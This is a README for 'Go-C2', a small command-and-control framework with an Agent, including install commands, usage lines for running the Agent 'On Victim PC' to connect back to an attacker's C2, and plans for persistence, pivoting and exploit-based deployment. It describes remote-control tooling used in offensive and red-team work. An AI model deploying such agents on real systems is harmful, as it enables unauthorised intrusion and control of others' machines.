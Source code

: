 

# Go-C2 v0.1

## What is this? 
This is a fairly small tool I wrote that acts as a sort of C2 and an Agent for that C2, additionally the Agent can act as a proxy server when needed.

## Why? 
Because I was annoyed that metasploit's meterpreters don't have a port scanning option so I implemented one myself


## Features:
* C2 client
* Agent

## Installing:
```sh
git clone https://github.com/mrLochness350/Go-C2.git
cd Go-C2
chmod +x install.sh
./install.sh
```
# Usage:

**On Victim PC**
```sh
$ ./Agent_linux_amd64 -c <C2 Address> -p <C2 Port>
```

**On Attacker PC**
```sh
$ ./C2_linux_amd64 -c <Agent Address> -p <Agent Port>
```


# TODO:

### General:
* Encrypt C2/Agent traffic / Add 2-way authentication to avoid snooping
* ~~Make the connection a reverse shell~~

### Agent
* Fix proxy problems
* Add extra verbosity
* Add background option
* Add option to drop into shell and not only execute code via the `shell` argument
* Add option to host the C2 from the Agent as a pivot-point
* Add persistence option

### C2
* Add multiple host listeners
* Add option to drop Agent via exploits
* Make the cli more interactive
* Execute commands on an Agent from the cli 
* ~~Add Logging function~~